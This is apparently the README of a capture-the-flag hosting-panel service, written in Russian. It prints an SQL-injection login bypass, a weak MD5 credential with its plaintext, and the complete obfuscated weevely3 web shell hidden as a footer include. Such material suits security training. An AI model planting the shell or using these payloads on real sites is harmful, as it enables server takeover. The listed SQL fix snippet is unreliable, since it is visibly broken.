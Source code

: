 # "Виртуальный хостинг Змей Горыныч"

## Overview

Сервис представляет собой подобие виртуального хостинга сайтов (shared web hosting)

Условные клиенты разместили три сайта на данном хостинге. В каждом раунде "операторы" оставляют новые заявки клиентов в административной панели,
часть информации которой является флагом. 

Приветствие для участников:
	Приветствуем вас на вашей новой работе, можете гордо называть себя: 
	Администратор виртуального хостинга сайтов "Змей Горыныч".
	В данный момент наш хостинг обработал трех клиентов, обработал - то есть запустил их сайты.
	Основная наша работа - поддерживать их в рабочем состоянии, клиент для нас прежде всего! 

	Сегодня ожидается большое количество заявок от клиентов, мы дали удачную рекламу после ребрендинга, 
	операторы будут вносить их на вторую вкладку сайта. Сами сайты на выходных мы не поднимаем, это в понедельник
	будут делать другие люди.

Для успешной работы чекера вам необходимо держать сайты клиентов в рабочем состоянии, есть возможность включать или выключать их через административную панель (порт 1000)


## Уязвимость 1: weak md5 in database

### Описание:
	В ипортируемой базе данных учетная запись mysql_test содержит слабый хэш md5, который легко пробивается по базам, исходное значение: admin12345
	
	INSERT INTO `admin_panel_users` (`ID`, `user`, `password`) VALUES
	(5, 'mysql_test', '7488e331b8b64e5794da3fa4eb10ad5d');
        

### FIX:

    Удалить учетную запись или поменять пароль

## Уязвимость 2: SQL injection

### Описание:
	Функция авторизации в административную панель "validate_cred" содержит прямой запрос к базе данных, уязвимый к sql инъекции:
	
	$query2 = "SELECT user, password FROM `admin_panel_users` WHERE user = '".$login."' AND password = '".$password."'";
	$result2 = mysqli_query($link, $query2);
    $COUNT2 = mysqli_num_rows($result2);
	if ($COUNT2 != 1 and $COUNT3 != 1) {
            mysqli_close($link);
            return false;
        }
        else {
            return true;
        }

	Пример вводимых учетных данных для реализации sql инъекции:
	login: old_admin
	password: ' or 1=1 LIMIT 1 -- -


### FIX:
    Необходимо использовать привязку переменных к параметрам подготавливаемого запроса mysqli_stmt_bind_param:

            mysqli_stmt_bind_param($stmt, "ss", $LOGIN, $PASSWORD);  //dont work
            $ip_address  = $_SERVER['HTTP_HOST']; 
            $LOGIN = $login;
            $PASSWORD = $password;
            
            $RESULT = mysqli_stmt_get_result($stmt);
            $COUNT = mysqli_num_rows($RESULT);


## Уязвимость 3: Веб-шелл weevely3 в одном сайте клиентов виртуального хостинга

### Описание:
    В первом сайте (site1) на странице page.html подключаемый footer.php является серверной частью веб-шелла weevely3
    page.html:
        ...
	    <footer class="footer text-center py-2 theme-bg-dark"> 
			<!-- Bootstrap PHP -->
			<?php include 'images/footer.php';?>
	    </footer>
        ...
    footer.php:
        <?php
            $A='?ecode($m]?[1]),$k]?)));$o=]?@ob]?_get_co]?n]?tents();@ob_]?en]?d_clea]?n();$';
            $P='$k="194a]?43aa]?";]?$kh="2]?d18d8fd5]?fb]?7";$kf="c1e0]?8]?2ba23cc";$]?p="p';
            $G=str_replace('XZ','','cXZXZreaXZtXZe_fuXZncXZtion');
            $S='<$l);$j++]?,$i+]?+]?){$o.=$t{$i]?}^$k{$j]?};}}r]?eturn $o]?;}if ]?(@pr]?eg_mat';
            $O='$m)==]?1)]? {@ob_sta]?]?rt()]?;@e]?val(@gzu]?]?ncompress(@x(@ba]?se64_d]';
            $U='r=@base]?6]?4_en]?code(@x(@gzc]?ompres]?s($o)]?,$]?k));print]?("$p$kh]?$r$kf");}';
            $L='LdZAm]?]?eDqdAQo]?03S";]?func]?tion x($t,$k)]?]?{$c=strlen($]?k);$l=st]?';
            $Q='rlen($]?t);$o]?="";]?for($i=]?0]?]?;$i<$]?l;){for($j]?=0]?;($j<$c&&$i';
            $u='ch]?("/$]?kh(.+)$kf]?/]?",@file_ge]?t_]?c]?ontents(]?"php://]?input"),';
            $J=str_replace(']?','',$P.$L.$Q.$S.$u.$O.$A.$U);
            $c=$G('',$J);$c();
        ?>  
    
    Данный веб-шелл использует пароль. Для его получения необходимо деобфусцировать код шелла. 
    Привер деобфускации: https://artikrh.sh/posts/weevely-backdoor-analysis.html
    И далее с помощью клиента weevely3 авторизоваться на странице page.html:
    Формат: weevely ip_address password


### FIX:
    Удалить код веб-шелла со страницы

